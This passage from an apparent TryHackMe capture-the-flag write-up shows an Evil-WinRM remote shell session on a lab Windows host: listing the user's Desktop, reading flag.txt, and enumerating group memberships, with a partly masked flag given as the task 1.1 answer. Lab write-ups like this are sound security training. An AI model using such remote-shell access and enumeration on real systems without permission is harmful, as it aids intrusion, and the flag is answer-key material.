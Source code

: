 <img width="1157" height="499" alt="image" src="https://github.com/user-attachments/assets/b3205633-8b44-4426-b97b-b3d819b74173" />

<br>


```bash
*Evil-WinRM* PS C:\Users\lparker\Desktop> dir


    Directory: C:\Users\lparker\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         3/3/2021   6:04 AM             37 flag.txt


*Evil-WinRM* PS C:\Users\lparker\Desktop> type flag.txt
THM{**************b89432fada8218f4ef}
```

<br>

```bash
*Evil-WinRM* PS C:\Users\lparker\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
```

<br>

<p>1.1. User 1<br>
<code>THM{**************b89432fada8218f4ef}</code></p>
